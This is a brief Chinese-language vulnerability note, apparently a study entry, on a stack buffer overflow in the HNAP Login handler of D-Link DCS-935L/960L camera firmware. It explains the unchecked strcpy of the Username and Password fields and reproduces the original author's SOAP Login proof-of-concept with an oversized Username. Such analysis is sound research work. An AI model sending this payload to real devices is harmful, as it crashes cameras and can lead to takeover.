

```
https://github.com/Xshacry/iot-vuln/blob/main/d-link/dcs-935l/readme.md
```

固件下载地址：

```
https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DCS-960L
```


漏洞点在HNAP处理登录的Login函数：

获取xml中的`Username`和`Password`后，直接strcpy，没有限制长度，而

v37和v39都是栈上的，所以造成了stack overflow。




作者给的PoC：

```xml
SOAPAction: http://192.168.0.1/HNAP1/Login
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login xmlns="http://192.168.0.1/HNAP1/">
      <Action></Action>
      <Username>a * 0x10000</Username>
      <LoginPassword/>
      <Captcha/>
    </Login>
  </soap:Body>
</soap:Envelope>
```


楽，CVE确实不用写出EXP。。。（还得回顾一下XML Soap了。。。）